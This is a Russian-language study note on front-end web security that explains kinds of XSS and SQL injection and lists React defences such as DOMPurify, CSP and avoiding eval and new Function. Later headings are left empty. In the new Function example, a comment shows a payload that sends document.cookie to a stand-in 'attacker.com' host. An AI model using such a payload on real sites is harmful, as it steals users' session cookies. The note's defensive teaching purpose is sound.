 # ClickJacking

# XSS (Cross Site Scripting)

XSS — это внедрение вредоносного кода на страницы атакуемого сервиса.

- Reflected XSS = Отражённый, потому что его действие сразу же отражается на поведении страницы.
- Stored XSS = "хранимый", это вредоносный код, который каким-то образом сохранился в атакуемом сервисе. Он мог быть записан в базу, сохранён на диске в виде текста, изображения, мог сохраниться в оперативной памяти сервера.
- Injection = самый частый пример - SQL-инъекции
- Key logger = разновидность XSS. Представим, что злоумышленники внедрили код, который отправляет все данные, набранные с клавиатуры

SQL-инъекции
Их суть заключается в доступе к данным атакуемого сервиса или их изменению. Ну или удалению, всякое бывает.

## Защита от XSS

**1. Никогда не вставляй HTML напрямую**

не использовать dangerouslySetInnerHTML, если только не уверен в источнике и не очистил HTML.

**2. Экранирование пользовательского ввода**

В React JSX по умолчанию все переменные безопасны:

```js
const userInput = '<script>alert("XSS")</script>';

<p>{userInput}</p>; // Безопасно: React экранирует строку
```

Если ты рендеришь HTML вручную (например, в innerHTML), обязательно очищай ввод:

```js
import DOMPurify from "dompurify";

const safeHtml = DOMPurify.sanitize(userInput);
<div dangerouslySetInnerHTML={{ __html: safeHtml }} />;
```

**3. Content Security Policy (CSP)**
CSP — это заголовок, который блокирует внедрение внешних скриптов, инлайнового JS и т. д.
Настраивается на сервере, пример:

```js
Content-Security-Policy: default-src 'self'; script-src 'self'
```

**4. Избегай инлайновых обработчиков**

```js
<!-- Уязвимо -->
<button onclick="alert(document.cookie)">Click</button>
```

Используй JS-функции, а не строки HTML:

```js
<button onClick={() => alert("safe")}>Click</button>
```

**5. Валидация и фильтрация данных на клиенте.**

Не пускай в форму всё подряд: даже на клиенте можно ограничивать ввод.
Например, использовать input[type="email"], маски, валидацию.
Но клиентская валидация = удобство, а не защита — всё равно проверяй данные на сервере.

**6. Избегать eval, new Function.**
new Function(...) в JavaScript — это динамический способ выполнения кода, очень похожий на eval(). Именно поэтому он опасен и может привести к XSS.

Ты буквально создаешь новую функцию из строки кода, передавая тело функции в виде строки:

```js
const fn = new Function("a", "b", "return a + b");
console.log(fn(2, 3)); // 5
```

Как пример того, что могут закинуть в приложение:

```js
const code = getUserInput(); // "return fetch('http://attacker.com?cookie=' + document.cookie)"
const run = new Function(code); // уязвимо
run(); // злоумышленник получает куки
```

# CSRF (Cross Site Request Forgery)

# Man In The Middle (MITM)

# Denial of Service

# HTTP Request Smuggling
